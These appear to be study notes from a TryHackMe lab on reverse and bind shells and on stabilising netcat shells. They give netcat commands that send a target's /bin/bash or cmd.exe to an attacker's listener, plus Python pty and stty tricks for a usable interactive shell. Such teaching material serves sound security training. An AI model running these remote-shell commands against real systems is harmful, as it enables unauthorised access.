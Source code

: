 
- **Reverse shells** are when the target is forced to execute code that connects *back* to your computer. On your own computer you would use one of the tools mentioned in the previous task to set up a *listener* which would be used to receive the connection. Reverse shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target; however, the drawback is that, when receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell. This, however, will not be a problem on the TryHackMe network due to the method by which we connect into the network.
    
    On the attacking machine:
    
    `sudo nc -lvnp <PORT>`
    
    On the target:
    
    `nc <LOCAL-IP> <PORT> -e /bin/bash`
    
- **Bind shells** are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.
    
    On the target:
    
    `nc -lvnp <port> -e "cmd.exe"`
    
    On the attacking machine:
    
    `nc MACHINE_IP <port>`
    

---

# Stabilising Netcat Shells

*Technique 1: Python*

The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. This is a three stage process:

1. The first thing to do is use `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
2. Step two is: `export TERM=xterm` -- this will give us access to term commands such as `clear`.
3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.

*Technique 2: rlwrap*

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell*;* however, s*ome* manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.
